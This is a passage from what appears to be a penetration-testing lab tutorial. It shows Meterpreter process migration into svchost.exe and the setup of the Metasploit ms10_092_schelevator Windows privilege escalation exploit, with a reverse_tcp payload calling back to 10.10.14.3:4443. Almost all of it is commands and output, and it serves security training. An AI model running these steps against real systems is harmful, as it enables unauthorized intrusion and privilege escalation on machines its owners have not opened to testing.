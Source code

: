 ```shell-session
 3048  476   svchost.exe
 
 
meterpreter > migrate 2796

[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```

#### Setting Privilege Escalation Module Options

Once this is set, we can now set up the privilege escalation module by specifying our current Meterpreter session, setting our tun0 IP for the LHOST, and a call-back port of our choosing.

Windows Server

```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1

SESSION => 1


msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3

lhost => 10.10.14.3


msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

lport => 4443


msf6 exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```
